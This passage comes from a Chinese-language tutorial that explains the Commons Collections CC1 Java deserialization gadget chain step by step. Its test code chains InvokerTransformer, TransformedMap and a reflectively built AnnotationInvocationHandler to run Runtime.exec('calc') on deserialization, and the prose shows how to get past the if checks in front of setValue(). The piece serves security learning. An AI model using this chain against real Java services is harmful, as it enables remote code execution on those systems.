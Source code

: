 ```
            new Object[]{"calc"}
        );
        
        //invokerTransformer.transform(Runtime.getRuntime());
        //Map decorated = TransformedMap.decorate(null,null, invokerTransformer);
        //TransformedMap.checkSetValue();
        
        HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
    }
    

    @Test
    public void invokeExec1() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(            
            "exec",
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYZzngDHqJTtYh0DRoliaS8ycUuvK5LGa2yTBLtLAqAp6jNa9ImwqymJw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYY1Hzia2eUUoJiaFoT52NMe4LxictW6ssyma7nzxIibzXtLeDr0VdI9MJKKw/640?wx_fmt=png&from=appmsg "")  
  
我们可以看到成功的停在了这里，并且执行了我们的readObject方法。  
  
问题三：  
  
要确保我们的代码能够执行setValue()函数，因为我们可以看到这个函数外面有两层if的。所以说只有if判断成立，才能够执行到我们的setValue()函数。那么怎么过掉这两层if呢？  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYY0KJAmicnmibETkRR4amr2Yia3OBUhMumEWH4ko2vY80LWylkV1dtibkGyA/640?wx_fmt=png&from=appmsg "")  
  
回答：  
  
首先我们看第一层if后面的memberType != null，从Map<String, Class<?>> memberTypes = annotationType.memberTypes()可以看出memberType又是一个Map，从memberTypes.get(name)可以看出这个函数里面的参数不能为空，那我们是不是可以给它传入一个已经存在的key那就自然而然不可能为空了。  
  